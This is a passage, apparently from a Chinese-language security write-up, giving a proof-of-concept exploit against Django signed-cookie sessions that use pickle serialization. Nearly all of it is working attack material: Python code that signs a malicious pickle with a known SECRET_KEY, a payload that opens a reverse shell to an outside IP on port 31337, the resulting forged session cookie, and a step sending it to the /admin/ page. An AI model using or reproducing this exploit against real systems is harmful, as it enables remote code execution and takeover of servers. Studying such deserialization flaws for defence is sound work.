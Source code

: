 下面再给出一 PoC 用以 GetShell：

```python
# coding: utf-8
from django.contrib.sessions.serializers import PickleSerializer
from django.core import signing
from django.conf import settings

settings.configure(SECRET_KEY='zur%eblm54)e)ox&-xzbwonmx$=+ijh3dl&6m-mx+1^y(-i09y')


class GetShellWithPython(object):
    def __reduce__(self):
        import subprocess
        return (subprocess.call,
                (['python',
                  '-c',
                  'import socket,subprocess,os;'
                  's=socket.socket(socket.AF_INET,socket.SOCK_STREAM);'
                  's.connect(("103.224.82.158",31337));'
                  'os.dup2(s.fileno(),0);'
                  'os.dup2(s.fileno(),1);'
                  'os.dup2(s.fileno(),2);'
                  'subprocess.call(["/bin/sh","-i"]);'],))


sess = signing.dumps(
    obj=GetShellWithPython(),
    serializer=PickleSerializer,
    salt='django.contrib.sessions.backends.signed_cookies'
)
print sess
```

运行该 PoC 后，得到加密后的 session 值：

    gAJjc3VicHJvY2VzcwpjYWxsCnEBXXECKFUGcHl0aG9ucQNVAi1jcQRV12ltcG9ydCBzb2NrZXQsc3VicHJvY2VzcyxvcztzPXNvY2tldC5zb2NrZXQoc29ja2V0LkFGX0lORVQsc29ja2V0LlNPQ0tfU1RSRUFNKTtzLmNvbm5lY3QoKCIxMDMuMjI0LjgyLjE1OCIsMzEzMzcpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7b3MuZHVwMihzLmZpbGVubygpLDEpO29zLmR1cDIocy5maWxlbm8oKSwyKTtzdWJwcm9jZXNzLmNhbGwoWyIvYmluL3NoIiwiLWkiXSk7cQVlhVJxBi4:1Zb69o:JrnUm9KCbIDWVh13g2i5rY0o11E

然后请求 `http://127.0.0.1:8000/admin/` 并附上相应的 session 值。
